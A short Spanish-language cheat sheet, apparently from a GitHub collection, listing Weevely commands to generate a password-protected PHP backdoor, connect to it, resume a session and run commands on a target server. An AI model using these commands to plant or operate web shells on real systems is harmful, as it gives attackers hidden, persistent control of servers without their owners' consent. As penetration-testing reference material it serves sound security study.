 # Weevely Cheat Sheet

#### Crear un PHP Backdoor
```
weevely generate <Password> <Path/to/File>
```

#### Conectarse al PHP backdoor
```
weevely <Backdoor-File-Path> <Password>
```

#### Recuperar una sesión
```
weevely session <Session-File-Path>
```

#### Ejecutar una terminal o comando en el objetivo
```
weevely terminal <Backdoor-File-Path> <Password> <Command>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)